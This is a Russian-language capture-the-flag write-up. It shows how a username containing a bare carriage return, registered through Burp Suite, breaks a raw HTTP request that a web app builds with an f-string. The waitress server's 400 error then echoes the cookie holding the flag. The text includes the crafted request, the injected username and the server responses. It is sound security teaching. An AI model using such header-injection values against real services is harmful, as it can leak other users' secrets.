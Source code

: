 Проанализируем исходный код. Когда пользователь авторизован, делается запрос на второй сервер в функции make_request, туда мы отправляем наш никнейм и флаг в cookies.
Для формирования запроса используется обычная f-строка, в которую вставляется наш username, соответственно в username можно вставлять потенциально вредоносные строчки.
После этого мы получаем ответ от второго сервера, который возвращает Hello, {username} если флаг совпал или I don't trust you если флаг не совпал.

Воспользуемся программой Burpsuite. Сначала скопируем запрос который отправляется на 2 сервер, и попробуем его повторить, вставив случайный логин и флаг.
Например:
```
GET / HTTP/1.1\r\nHost: 0.0.0.0:3001\r\nCookie: username=abc;flag=abc\r\n\r\n
```

Мы получаем обычный ответ:
```HTTP/1.1 200 OK
Content-Length: 18
Content-Type: text/html; charset=utf-8
Date: Thu, 23 Mar 2023 12:59:24 GMT
Server: waitress

I don't trust you!
```

В запросах для переноса строки используется \r\n. Мы можем испортить запрос, вставив в юзернейм \r (без \n, тогда будет ошибка плохого переноса)
Отправим такой запрос на сервер, и получаем ответ:
```HTTP/1.0 400 Bad Request
Connection: close
Content-Length: 109
Content-Type: text/plain; charset=utf-8
Date: Thu, 23 Mar 2023 13:01:04 GMT
Server: waitress

Bad Request

Bare CR or LF found in header line "Cookie: username=abc
;flag=abc"

(generated by waitress)
```
Мы видим, что сервер нам отправил ошибку, и при этом вставил часть запроса, вместе с флагом, который мы отправляли.

Теперь нам нужно зарегистрировать любого пользователя и добавить в конце юзернейма \r.
Мы не можем зарегистрировать его через обычную форму авторизации, так как тогда \r посчитается как два символа: слэш и r, а не перенос каретки.
Перехватим с помощью Burpsuite запрос регистрации, отправим его в Repeater, отредактируем в нем логин например на abc\r и снова отправим на сервер. Затем мы получим сессию, зайдем под ней
в браузер, и получим такой ответ:
```
Bad Request Bare CR or LF found in header line "Cookie: username=abc ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)
```
Здесь и найдем флаг.